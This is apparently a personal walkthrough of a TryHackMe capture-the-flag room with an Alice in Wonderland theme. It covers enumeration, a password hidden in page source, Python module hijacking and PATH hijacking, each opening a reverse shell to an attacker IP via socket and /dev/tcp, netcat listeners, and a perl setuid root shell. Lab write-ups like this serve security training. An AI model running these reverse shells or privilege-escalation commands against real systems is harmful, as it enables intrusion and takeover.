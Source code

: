  This was a tryhackme CTF

 - I started with regular nmap enumaration and found http and ssh were running
 - Going to the website adn viewing source, I foud the img directory
 - Three images were in the directory, so I downloaded all three and ran steg checks with `https://futureboy.us/stegano/decinput.html`
 - The only one with info was the white rabbit picture, with resulted in this:
```
follow the r a b b i t
```
- I had previously run gobuster to enumerate subdirectories and found the directory `/r`
```shell
# command
gobuster dir -u <http://IP> -w /usr/share/dirb/wordlists/common.txt
```
- Following the rabbit logic, I nagivated to `/r/a/b/b/i/t` (there were quotes on each page)
- Viewing source on the `/t` page, I foud an interesting line
```html
<p style="display: none;">alice:HowDothTheLittleCrocodileImproveHisShiningTail</p>
```
- I tried logging in to ssh using the username `alice` and `HowDothTheLittleCrocodileImproveHisShiningTail` as the password (it worked!)
- Listing out files, I found a `root.txt` file and a python script
- I ran `nano` on the python script, which turnedout out to be a poem that just output random lines when run
- `sudo -l` showed that alice had root privileges for python on that specific file, so I decided ot exploit that
- I went to my fav place for priv escelation scripts, `gtfobins` and found one for python
- I modified it like this, but it can only be used with that specific file so I ended up stuck for a bit
```python
sudo python3 -c 'import os; os.system("/bin/sh")'
```
- I decided to work on finding `user.txt` which ended up being it the root directory (for whatever reason) so I got that with `cat /root/user.txt`
- Looking at the python script again, I noticed that it imported the random module to run. I had to do some reasearch, but it turns out this can be exploited
- If we create a python script called `random.py` this will be imported into the python script befor ehte actual random module, which means we can get a reverse shell
```python
# script
import socket
import subprocess
import os

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM);
s.connect(("10.2.91.174",7777));os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
os.putenv("HISTFILE", "/dev/null")
p=subprocess.call(["/bin/bash","-i"]);
```
- then we sut up a listener on port 7777
```shell
nc -lvnp 7777
```
- and deploy
```shell
sudo -u rabbit /usr/bin/python3.6 /home/alice/nameofthepscriptimlazy
```
- Navigating into `/home/rabbit` there is a suid file called `teaParty`
- Running it outputs this:
```
Probably by Wed, 13 Dec 2023 02:10:07 +0000

Welcome to the tea party!
The Mad Hatter will be here soon.
Ask very nicely, and I will give you some tea while you wait for him
Segmentation fault (core dumped)
```
- I copied it over to my system `scp teaParty > isabelle@<attack machine IP>`
- Similar to the python script, it has a relative call, this time to `date`
- So we employ similar tactics
- cd into `tmp` and create a `date` rev shell script
- nano was acting wild so I just used echo like this:
```shell
echo -e '#!/bin/bash\nbash -i >& /dev/tcp/10.2.91.174/9999 0>&1' > date
```
- and ran these commands
```shell
chmod 755 date
export PATH=/tmp:$PATH
```
- now it references the /tmp file instead of the actual date module
- I set up a listener on my machine `nc -lvnp 9999`
- and ran the script `./teaCup`
- The new user is `hatter`. I CDed into th ehatter directory, where there was a file `password.txt` which contained `WhyIsARavenLikeAWritingDesk?`
- I was a bit stuck at this point, but I wanted a more stable shell so I SSHed into the hatter profile
- I ran `linPeas` on the profile which exposed a perl setuid vulnerability
- I ran this command
```shell
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```
- and got a root shell
- `cat /home/alice/root.txt` and got the flag

